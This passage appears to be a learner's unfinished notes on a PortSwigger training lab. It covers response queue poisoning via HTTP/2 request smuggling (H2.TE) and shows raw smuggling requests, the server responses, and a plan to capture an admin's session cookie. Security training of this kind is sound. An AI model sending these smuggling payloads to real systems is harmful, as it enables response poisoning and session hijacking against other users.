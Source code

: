 And we send normal req after it:
```bash
GET /post?postId=1 HTTP/2
Host: 0ae000d703ab28f1810953e500ce003d.web-security-academy.net
Cookie: session=lF2n6WnawFtqt7IrLoDsdCXBoBZh4ojp
```
and in the response to the normal req we get:
```bash
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```
So H2.TE is confirmed

Now we need to poison the response queue. So we modify our attack req and send it:
```bash
POST / HTTP/2
Host: 0ae000d703ab28f1810953e500ce003d.web-security-academy.net
Cookie: session=lF2n6WnawFtqt7IrLoDsdCXBoBZh4ojp
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /doesnotexist HTTP/1.1
Host: 0a1d00bb04f63c39803fa355003e003d.web-security-academy.net\r\n
\r\n
```

And norm req stays the same and after we send our norm req in the response we get 404 Not found, which confirms that the response queue was poisoned

So we now need to keep sending normal requests until in the reponse we see the response to login endpoint which is going to contain admin's session cookie.

Manually sending requests does not work, so we should better use intruder

TODO:
Looks like admin is not logged in so rn the lab can't be solved:
```bash
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3251

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Response queue poisoning via H2.TE request smuggling</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Response queue poisoning via H2.TE request smuggling</h2>
                            <a class=link-back href='https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
```